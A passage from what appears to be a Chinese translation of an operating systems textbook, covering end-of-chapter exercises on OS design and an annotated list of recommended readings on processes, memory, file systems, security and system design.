最后，操作系统在未来几年必须进行变革以跟上新的趋势和迎接新的挑战。这些趋势和挑战包括基于管理程序的系统、多核系统、64位地址空间、大规模的网络连接、大规模多处理器、多媒体、掌上无线计算机、嵌入式系统及其传感节点。对于操作系统设计人员来说今后几年将十分令人激动。
1.摩尔定律（Moore's law）描述了一种指数增长现象，类似于将一个动物物种引入到具有充足食物并且没有天敌的新环境中生长。本质上，随着食物供应变得有限或者食肉动物学会了捕食新的被捕食者，一条指数增长曲线可能最终成为一条具有一个渐进极限的S形曲线。讨论可能最终限制计算机硬件改进速率的因素。
2.图13-1显示了两种范型：算法范型和事件驱动范型。对于下述每一种程序，哪一范型可能更容易使用：
a)编译器
b)照片编辑程序
c)工资单程序
3.在某些早期的苹果Macintosh计算机上，GUI代码是在ROM中的。为什么？
4.Corbató的格言是系统应该提供最小机制。这里是一份POSIX调用的列表，这些调用也存在于UNIX版本7中。哪些是冗余的？换句话说，哪些可以被删除而不损失功能性，因为其他调用的简单组合可以做同样的工作并具有大体相同的性能。access、alarm、chdir、chmod、chown、chroot、close、creat、dup、exec、exit、fcntl、fork、fstat、ioctl、kill、link、lseek、mkdir、mknod、open、pause、pipe、read、stat、time、times、umask、unlink、utime、wait和write。
5.在一个基于微内核的客户-服务器系统中，微内核只做消息传递而不做其他任何事情。用户进程仍然可以创建和使用信号量吗？如果是，怎样做？如果不是，为什么不能？
6.细致的优化可以改进系统调用的性能。考虑这样一种情况，一个系统调用每10ms调用一次，一次调用花费的平均时间是2ms。如果系统调用能够加速两倍，花费10s的一个进程现在要花费多少时间运行？
7.请在零售商店的上下文中简要讨论一下机制与策略。
8.操作系统经常在外部和内部这两个不同的层次上实现命名。这些名字就如下性质有什么区别？
a)长度
b)惟一性
c)层次结构
9.处理大小事先未知的表格的一种方法是将其大小固定，但是当表格填满时，用一个更大的表格取代它，并且将旧的表项复制到新表中，然后释放旧的表格。使新表的大小是原始表格大小的2倍，与新表的大小只是原始表格大小的1.5倍相比，有什么优点和缺点？
10.在图13-5中，标志found用于表明是否找到一个PID。忽略found而只是在循环的结尾处测试p以了解是否到达结尾，这样做可行吗？
11.在图13-6中，条件编译隐藏了Pentium与Ultra SPARC的区别。相同的方法可以用于隐藏拥有一块IDE磁盘作为惟一磁盘的Pentium与拥有一块SCSI磁盘作为惟一磁盘的Pentium之间的区别吗？这是一个好的思路吗？
12.间接是使一个算法更加灵活的一种方法。它有缺点吗？如果有的话，有哪些缺点？
13.可重入的过程能够拥有私有静态全局变量吗？讨论你的答案。
14.图13-7b中的宏显然比图13-7a中的过程效率更高。然而，它的一个缺点是难于阅读。它还存在其他缺点吗？如果有的话，还有哪些缺点？
15.假设我们需要一种方法来计算一个32位字中1的个数是奇数还是偶数。请设计一种算法尽可能快地执行这一计算。如果必要，你可以使用最大256KB的RAM来存放各种表。编写一个宏实现你的算法。附加分：编写一个过程通过在32个位上进行循环来做计算。测量一下你的宏比过程快多少倍。
16.在图13-8中，我们看到GIF文件如何使用8位的值作为索引检索一个调色板。相同的思路可以用于16位宽的调色板。在什么情况下（如果有的话），24位的调色板是一个好的思路？
17.GIF的一个缺点是图像必须包含调色板，这会增加文件的大小。对于一个8位宽的调色板而言，达到收支平衡的最小图像大小是多少？对于16位宽的调色板重复这一问题。
18.在正文中，我们展示了对路径名进行高速缓存使得当查找路径名时可以显著地加速。有时使用的另一种技术是让一个守护程序打开根目录中的所有文件，并且保持它们永久地打开，为的是迫使它们的i节点始终处于内存中。像这样钉住i节点可以进一步改进路径查找吗？
19.即使一个远程文件自从记录了一个线索以来没有被删除，它也可能自从最后一次引用以来发生了改变。有哪些可能有用的其他信息要记录？
20.考虑一个系统，它将对远程文件的引用作为线索而储藏，例如形如（名字，远程主机，远程名字）。一个远程文件悄悄地被删除然后被取代是可能的。那么线索将取回错误的文件。怎样才能使这一问题尽可能少地发生？
21.我们在正文中阐述了局部性经常可以被用来改进性能。但是，考虑一种情况，其中一个程序从一个数据源读取输入并且连续地输出到两个或多个文件中。试图利用文件系统中的局部性在这里可能会导致效率的降低吗？存在解决这一问题的方法吗？
22.Fred Brooks声称一名程序员每年只能编写1000行调试好的代码，然而MINIX的第一版（13 000行代码）是一个人在3年之内创作的。怎样解释这一矛盾？
23.使用Brooks每名程序员每年1000行的数字，估计生产Windows Vista花费的资金数量。假设一名程序员每年的成本是100 000美元（包括日常开销，例如计算机、办公空间、秘书支持以及管理开销）。你相信这一答案吗？如果不相信，什么地方有错误？
24.随着内存越来越便宜，可以设想一台计算机拥有巨大容量的电池供电的RAM来取代硬盘。以当前的价格，仅有RAM的低端PC成本是多少？假设1GB的RAM盘对于低端机器是足够的。这样的机器有竞争力吗？
25.列举某个装置内部的嵌入式系统中不需要用到的常规操作系统的某些功能特性。
26.使用C编写一个过程，在两个给定的参数上做双精度加法。使用条件编译编写该过程，使它既可以在16位机器上工作，也可以在32位机器上工作。
27.编写程序，将随机生成的短字符串输入到一个数组中，然后使用下述方法在数组中搜索给定的字符串：a)简单的线性搜索（蛮力法），b)自选的更加复杂的方法。对于从小型数组到你的系统所能处理的最大数组这样的数组大小范围重新编译你的程序。评估两种方法的性能。收支平衡点在哪里？
28.编写一个程序模拟在内存中的文件系统。
在前13章中我们已经介绍了操作系统的许多内容。本章的目的在于向那些希望对操作系统进行进一步研究的读者提供一些帮助。14.1节列出了向读者推荐的阅读材料，14.2节按照字母顺序列出了本书中所引用的所有书籍和文章。
除了下面给出的参考书目以外，奇数年份举行的ACM操作系统原理学术会议（Symposium on Operating Systems Principles,SOSP）和偶数年份举行的USENIX操作系统设计与实现学术会议（Symposium on Operating Systems Design and Implementation,OSDI）也是了解目前操作系统领域研究工作的很好渠道。一年一度的Eurosys 200x会议也有一流的文章。还可以在《ACM Transactions on Computer Systems》和《ACM SIGOPS Operating Systems Review》两份杂志中找到一些相关的文章。另外ACM、IEEE和USENIX的许多会议也涉及到有关的内容。
在以下各小节中，我们给出一些深入阅读的建议。与本书中标题为“与......有关的研究工作”小节中引用的那些有关当前研究工作的文章不同，这些参考资料实际上多数属于入门和培训一类的。不过，可以把它们看作本书中所介绍内容的不同视角和不同的着重点。
Silberschatz et al.，Operating System Concepts with Java,7th ed.
关于操作系统的一本通用教材。它涵盖了进程、内存管理、存储管理、保护和安全、分布式系统和一些专用系统等方面的内容。书中给出了两个实例：Linux和Windows XP。书的封面全是恐龙，这与公元2000年的操作系统有什么关系不十分清楚。
Stallings，Operating Systems，5th ed.
这是有关操作系统的另一本教科书。它涵盖了所有传统的内容，还包括少量分布式系统的内容。
Stevens and Rago，Advanced Programming in the UNIX Environment
该书叙述如何使用UNIX系统调用接口以及标准C库编写C程序。有基于System V第4版以及UNIX 4.4BSD版的例子。有关这些实现与POSIX的关系在书中有具体叙述。
Tanenbaum and Woodhull，“Operating Systems Design and Implementation”
一个通过动手实践来学习操作系统的方法。这本书主要介绍了一些常见的原理，另外详细介绍了一个真实的操作系统——MINIX3。并且附带了这个操作系统的清单。
Andrews and Schneider，“Concepts and Notations for Concurrent Programming”
这是一本关于进程和进程间通信的教程，包括忙等待、信号量、管程、消息传递以及其他技术。文章中同时也说明了这些概念是如何嵌入到不同编程语言中去的。这篇文章非常老，但是却经受住了时间的考验。
Ben-Ari，Principles of Concurrent Programming
这本书专门讨论了进程间的通信问题，其他章节则讨论了互斥性、信号量、管程以及哲学家就餐问题等。
Silberschatz et al.，Operating System Concepts with Java,7th ed.
该书的第4～6章讨论了进程和进程间通信，包括调度、临界区、信号量、管程以及经典的进程间通信问题。
Denning，“Virtual Memory”
该文是一篇关于虚拟内存诸多特性的经典文章。作者Denning是该领域的先驱之一，正是他创立了工作集概念。
Denning，“Working Sets Past and Present”
该书很好地阐述了大容量存储器的管理和页面置换算法。书后附有完整的参考文献。虽然其中很多文章都非常老了，但是原理实际根本没有变化。
Knuth，The Art of Computer Programming，Vol.1
该书讨论并比较了首次适配算法、最佳适配算法和其他一些存储管理算法。
Silberschatz et al.，Operating System Concepts with Java,7th ed.
该书第8章和第9章讨论了存储管理，包括交换、分页和分段等。书中提到了很多页面置换算法。
Geist and Daniel，“A Continuum of Disk Scheduling Algorithms”
该文给出了一个通用的磁盘臂调度算法，并给出了详细的模拟和实验结果。
Scheible，“A Survey of Storage Options”
现在存储的方法很多：DRAM，SRAM，SDRAM，闪存，硬盘，软盘，CD-ROM，DVD，还有磁带等。这篇文章对这些技术进行了评述，着重总结了它们的优缺点。
Stan and Skadron，“Power-Aware Computing”
能源问题始终是移动设备的主要问题，直到有人能设法将摩尔定律运用于电池技术为止。我们甚至有可能在不久就需要一个可感知温度的操作系统。这篇文章就是针对这些问题的一个综述，同时介绍对能源感知计算中的计算机这一特定问题的5篇文章。
Walker and Cragon，“Interrupt Processing in Concurrent Processors”
在超标量计算机中精确实现中断是一项具有挑战性的工作。其技巧在于将状态序列化并且快速地完成这项工作。文中讨论了许多设计问题以及相关的权衡考虑。
McKusick et al.，“A Fast File System for UNIX”
在4.2BSD环境下重新实现了UNIX的文件系统。该文描述了新文件系统的设计，并把重点放在其性能上。
Silberschatz et al.，Operating System Concepts with Java,7th ed.
该书第10～11章与文件系统有关，涉及文件操作、文件访问方式、目录以及实现和其他内容等。
Stallings，Operating Systems，5th ed.
该书第12章包括许多有关安全环境的内容，特别是有关黑客、病毒以及其他威胁等内容。
Coffman et al.，“System Deadlocks”
该文简要介绍了死锁、死锁的产生原因以及如何预防和检测。
Holt，“Some Deadlock Properties of Computer Systems”
该文围绕死锁进行了讨论。Holt引入了一个可用来分析某些死锁情况的有向图模型。
Isloor and Marsland，“The Deadlock Problem：An Overview”
这是关于死锁的入门教程，重点放在了数据库系统，也介绍了多种模型和算法。
Shub，“A Unified Treatment of Deadlock”
这是一部关于死锁产生和解决的简短综述，同时也给出了一些在教学时应当强调内容的建议。
Lee，“Parallel Video Servers：A Tutorial”
许多组织想提供视频点播，这就需要拥有可扩展的、容错的并行视频服务器。文中介绍了怎样构建这种服务器的主要问题，包括服务器的体系结构、条带化、布局策略、负载平衡、冗余、协议以及同步。
Leslie et a1.，“The Design and Implementation of an Operating System to Support Distributed Multimedia Applications”
许多多媒体实现的尝试都是在现有的操作系统上增加一些功能，另一个方向是全部重新开发，就像该文描述的一样，为多媒体构建一个新的操作系统，不需要为向下兼容而进行修改。这样做的结果是产生一个与传统操作系统截然不同的新系统。
Sitaram and Dan，“Multimedia Servers”
多媒体服务器与通常的文件服务器有很多不同之处。作者详细讨论了这些不同，特别是在调度、存储子系统和高速缓存这几个方面。
Ahmad，“Gigantic Clusters：Where Are They and What Are They Doing?”
为了了解大型多计算机系统的先进性，可以读这篇文章。它描述了这一思想，并且给出了对当前在使用的一些大型系统的概况介绍。根据摩尔定律可以合理推断，这里提到的规模大约每两年就会增长一倍。
Dubois et al.，“Synchronization，Coherence，and Event Ordering in Multiprocessors”
该文是一个关于基于共享存储器多处理器系统中同步问题的指南，而且，其中的一些思想对于单处理器和分布式存储系统也是适用的。
Geer，“For Programmers，Multicore Chips Mean Multiple Challenges”
多核芯片的时代正在到来——不论软件界的人们是否准备好。实际上他们并没有准备好，而且为这些芯片编写程序往往是巨大的挑战，这包括选择合适的工具、将有关工作划分成小的部分，以及测试结果等。
Kant and Mohapatra，“Internet Data Centers”
Internet数据中心是一个被兴奋剂刺激起来的巨大多计算机。常常让成千上万台计算机为一个应用软件而工作。这里的主要问题就是可伸缩性、可维护性和能源。这篇文章既是对有关问题的一个介绍，也是对同一个问题的其他4篇文章的介绍。
Kumar et al.，“Heterogeneous Chip Multiprocessors”
用在台式电脑上的多核芯片是对称的——每一个核是相同的。然而对一些应用软件来说，异构的多处理器（Chip multiprocessors,CMPS）是很普遍的，有的核用来计算、有的处理视频编码、有的处理音频编码等。这篇文章就讨论异构多处理器中的有关问题。
Kwok and Ahmad，“Static Scheduling Algorithms for Allocating Directed Task Graphs to Multiprocessors”
如果提前知道所有作业的特性，就可能对多计算机系统或者多处理器进行优化作业调度。问题在于最优调度的计算时间会很长。在这篇论文中，作者讨论并且比较了用不同方法解决这个问题的27种著名的算法。
Rosenblum and Garfinkel，“Virtual Machine Monitors：Current Technology and Future Trends”
这篇文章从虚拟机监视器的历史谈起，然后讨论现有处理器、内存和I/O的虚拟化情况。文章涉及的领域不但包括上面三个方面，还包括将来如何用硬件来减少这些问题。
Whitaker et al.，“Rethinking the Design of Virtual Machine Monitors”
多数计算机都有一些奇怪和难于虚拟化的方面。在这篇文章中Denali系统的作者就虚拟化进行了一些探讨，即如何修改客户操作系统以避免遇到一些奇怪的特性，由此来防止仿真这些特性。
Bratus，“What Hackers Learn That the Rest of Us Don't”
是什么让黑客如此与众不同？他们所关注的，而一般程序员却忽略的，是什么？他们对API态度不同吗？支末问题重要吗？读者好奇吗？如果感兴趣，建议读一读。
Computer，Feb 2000
这一期Computer的主题是生物测量学。关于这个主题有6篇论文，从入门到专题，从各种特定技术到法律和隐私问题，论文都有涉及。
Denning，Information Warfare and Security
信息已经变成了战争武器，既是军事武器也是军事配合武器。参与者不仅尝试攻击对方的信息系统，而且要防卫好自己的系统。在这本吸引人的书中，作者讨论了所有能想到的关于攻击策略和防卫策略的话题，从数据欺骗到包窥探器。该书对于计算机安全有极大兴趣的读者来说是必读的。
Ford and Allen，“How Not to Be Seen”
病毒，间谍软件，rootkits和数字版权管理系统都对隐藏数据情有独钟。这篇文章对各种隐身的方法进行了简要的介绍。
Hafner and Markoff，Cyberpunk
书中介绍了由《纽约时报》曾经写过网络蠕虫故事（马尔可夫链）的计算机记者讲述的世界上关于年轻黑客破坏计算机的三种流传最广的故事。
Johnson and Jajodia，“Exploring Steganography：Seeing the Unseen”
隐身术具有悠久的历史，可以回到将信使的头发剃光，然后在剃光的头上纹上信息，然后在信使的头发长出来之后再将他送走的年代。尽管当前的技术很多，但是它们也是数字化的。本书对于想在这一主题彻底入门的读者来说是一个开端。
Ludwig，The Litte Black Book of Email Viruses
如果想编写反病毒软件并且想了解在位级别（bit level）上这些病毒是怎么工作的，那么这本书很适合。每种病毒都有详细的讨论并且也提供了绝大多数的实际代码。但是，要求读者透彻掌握Pentium汇编语言编程知识。
Mead，“Who is Liable for Insecure Systems?”
很多有关计算机安全的措施都是从技术角度出发的，但是这不是惟一的角度。也许软件经销商应该对由于他们的问题软件而带来的损失负起责任。如果比现在更多地关注于安全，这会是经销商的机会吗？对这个提法感兴趣吗？可以读一下这篇文章。
Milojicic，“Security and Privacy”
安全性涉及很多方面，包括操作系统、网络、私密性表示等。在这篇文章中，6位安全方面的专家给出了他们各自关于这个主题的想法和见解。
Nachenberg，“Computer Virus-Antivirus Coevolution”
当反病毒的开发人员找到一种方法能够探测某种电脑病毒并且使其失效时，病毒的编写者已经在改进和开发更强的病毒。本书探讨了这种制造病毒和反病毒之间的“猫和老鼠”游戏。作者对于反病毒编写者能否取胜这场游戏并不持乐观态度，这对电脑用户来说也许不是一个好消息。
Pfleeger，Security in Computing，4th ed.
尽管已经出版了很多关于计算机安全的书籍，但大多数却只关注网络安全性。本书不仅关注网络安全性，还包含了讨论操作系统安全性、数据库安全性和分布式系统安全性的章节。
Sasse，“Red-Eye Blink,Bendy Shuffle,and the Yuck Factor:A User Experience of Biometric Airport Systems”
作者讲述了他在许多大机场所经历的瞳孔识别系统的体验。不是所有的体验都是正面的。
Thibadeau，“Trusted Computing for Disk Drives and Other Peripherals”
如果读者认为磁盘驱动器只是一个储存比特的地方，那么最好再考虑一下。现代的磁盘驱动器有非常强大的CPU，兆级的RAM，多个通信通道甚至有自己的启动ROM。简而言之，它就是一个完整的计算机系统，很容易被攻击，因此它也需要有自己的保护机制。这篇文章讨论的就是磁盘驱动器的安全问题。
Bovet and Cesati，Understanding the Linux Kernel
该书也许是对Linux内核整体知识讨论最好的一本书。它涵盖了进程、存储管理、文件系统和信号等内容。
IEEE，Information Technology——Portable Operating System Interface（POSlX），Part 1：SystemApplication Program Interface（API）[C Language]
这是一个标准。一些部分确实值得一读，特别是附录B，清晰阐述了为什么要这样做。参考标准的一个好处在于通过定义不会出现错误。例如，如果一个宏的名字中的排字错误贯穿了整个编辑过程，那么它将不再是一个错误，而成为一种正式标准。
Fusco，The Linux Programmers'Toolbox
这本书是为那些知道一些基本Linux知识，并且希望能够进一步了解Linux程序如何工作的中级读者们写作的。该书假定读者是一个C程序员。
Maxwell，Linux Core Kernel Commentary
该书的前400页给出了Linux的内核源代码的一个子集。后面的150页则是对这些代码的评述。与John Lions的经典书籍（1996）风格很相似。如果你想了解Linux内核的很多细节，那么这是一个不错的起点，但是读40 000行C语言代码不是每个人都必需的。
Cusumano and Selby，“How Microsoft Builds Software”
你是否曾经好奇过一个人如何能够写出29 000 000行代码（就像Windows 2000一样），并且让它作为一个整体运转起来?希望探究微软是如何采用建造和测试循环来管理大型软件项目的读者，可以参看这篇论文。其过程相当有启发性。
Rector and Newcomer，Win32 Programming
如果想找一本1500页的书，告诉你如何编写Windows程序，那么读这本书是一个不错的开始。它涵盖了窗口、设备、图形输出、键盘和鼠标输入、打印、存储管理、库和同步等许多主题。阅读这本书要求读者具有C或者C++语言的知识。
Russinovich and Solomon，Microsoft Windows Internals,4th ed.
如果想学习如何使用Windows，可能会有几百种相关的书。如果想知道Windows内部如何工作的，本书是读者最好的选择。它给出了很多内部算法和数据结构以及可观的技术细节。没有任何一本书可以替代。
Cinque et al.，“How do Mobile Phone Fail?A Failure Data Analysis of Symbian OS Smart Phones”
以前不论怎样，当计算机崩溃时，至少电话总是可以用的。而现在电话其实就是一个小屏幕的计算机，它们也会因为糟糕的软件而崩溃。本文讨论了可以导致Symbian手机或者终端崩溃的软件错误。
Morris，The Symbian OS Architecture Sourcebook
如果你一直在寻找关于Symbian操作系统的进一步细节，那么本书是一个很好的开始。它涉及了Symbian的体系结构和相当数量的各层细节，而且还给出了一些实例分析。
Stichbury and Jacobs，The Accredited Symbian Developer Primer
如果你对为Symbian手机或者掌上电脑如何开发应用软件感兴趣的话，那么本书是一个不错的选择。它从所需要的C++语言讲起，逐步深入到系统结构、文件系统、网络管理、工具链和兼容性。
Brooks，The Mythical Man Month：Essays On Software Engineering
Fred Brooks是IBM的OS/360的主要设计者之一。以其丰富的经验，他知道在计算机的设计中什么是可以运行的和什么是不能运行的。他在25年前写下这本诙谐且内涵丰富的书中给出的建议现在一样是可行的。
Cooke et al.，“UNIX and Beyond：An Interview with Ken Thompson”
设计一个操作系统与其说是一门科学，不如说是一门艺术。因此，倾听该领域专家的谈话是一个学习这方面知识的有效途径。在操作系统领域中，没有谁比Ken Thompson更有发言权的了。在对这位UNIX、Inferno、Plan9操作系统的合作设计者的访问过程中，Ken Thompson阐明了在这个领域中我们从哪里开始和即将走向哪里等问题。
Corbató，“On Building Systems That Will Fail”
在获得图灵奖的演讲大会上，这位分时系统之父阐述了许多Brooks在《人月神话》中同样关注的问题。他的结论是所有的复杂系统都将最终失败，为了设计一个成功的系统，避免复杂化、追求设计上的优雅风格和简单化原则是绝对重要的。
Crowley，Operating Systems:A Design-Oriented Approach
大多数介绍操作系统的教材仅仅是讲操作系统的基本概念（进程调度、虚拟内存等）和列举一些例子，对于如何设计一个操作系统却没有提及。该书独一无二的特点在于有4章是说明如何设计一个操作系统的。
Lampson，“Hints for Computer System Design”
Butler Lampson——世界上最主要的具有创新性的操作系统设计者之一，在他多年的设计经历中总结了许多设计方法、对设计的建议和一些指导原则并写下这篇诙谐的内涵丰富的文章，正如Brooks的书一样，对于有抱负的操作系统的设计者来说，这本书一定不要错过。
Wirth，“A Plea for Lean Software”
Niklaus Wirth——著名的经验丰富的系统设计者，曾设计了面向网络的基于图形用户界面的操作系统Oberon，包括Oberon编译器和文本编辑器，只有200KB。通过讨论Oberon系统，他阐明软件应该基于简单的概念，使其简单明了，而不是商用化软件的复杂。